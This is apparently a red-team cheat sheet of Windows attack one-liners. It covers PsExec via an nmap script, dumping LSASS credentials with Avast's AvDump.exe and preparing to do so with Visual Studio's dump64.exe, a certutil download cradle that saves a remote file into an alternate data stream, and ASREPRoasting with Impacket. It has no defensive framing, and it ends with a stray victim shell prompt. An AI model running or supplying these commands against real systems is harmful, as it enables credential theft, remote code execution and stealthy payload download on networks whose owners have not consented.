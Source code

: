 ## PSexec with NMAP:

```
nmap --script smb-psexec.nse -script-args=smbuser=<username>, smbpass=<password>[,config=<config>] -p445 <hosts>
```

## AV LSASS Dump:

How to utilize Avast AV to dump LSASS (C:\Program Files\Avast Software\Avast)

```
AvDump.exe --pid 1111 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```

## Certutil Download Cradle:

Download and save a Python file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://github.com/RoseSecurity/APOLOGEE/blob/main/siemens_field_panel_scanner.py c:\temp:apologee.py
```

## Kerberoasting with Impacket:

ASREPRoast

With Impacket example GetNPUsers.py:

```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
## Dumping LSASS With Visual Studio:

Dump64: Memory dump tool that comes with Microsoft Visual Studio

Path: C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\dump64.exe

Enumerate for Visual Studio install:

```
C:\> code -v
```

Find LSASS PID:

```
tasklist /fi "Imagename eq lsass.exe"
```


[VICTIM]: PS C:\Users\Victim\Documents>